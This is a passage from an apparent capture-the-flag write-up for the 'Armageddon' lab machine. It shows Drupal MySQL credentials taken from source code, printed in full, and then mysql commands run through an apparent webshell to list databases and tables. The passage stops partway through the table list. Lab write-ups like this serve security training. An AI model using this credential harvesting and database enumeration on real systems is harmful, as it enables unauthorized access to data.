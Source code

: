 ```
...

```

And we find out credentinals to connect mysql database

```
'username' => 'drupaluser',
'password' => 'CQHEy@9M*m23gBVj'
```

Let's do it.

```
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'show databases'
Database
information_schema
drupal
mysql
performance_schema
armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal'

armageddon.htb>> mysql -u drupaluser -pCQHEy@9M*m23gBVj -e 'use drupal; show tables'
Tables_in_drupal
actions
authmap
batch
block
block_custom
block_node_type
block_role
blocked_ips
cache
cache_block
cache_bootstrap
cache_field
cache_filter
cache_form
cache_image
cache_menu
cache_page
cache_path
comment
date_format_locale
date_format_type
date_formats
field_config
field_config_instance
field_data_body
field_data_comment_body
field_data_field_image
field_data_field_tags
field_revision_body
field_revision_comment_body
field_revision_field_image
field_revision_field_tags
file_managed
file_usage
filter
filter_format
flood
history
image_effects
image_styles
menu_custom
```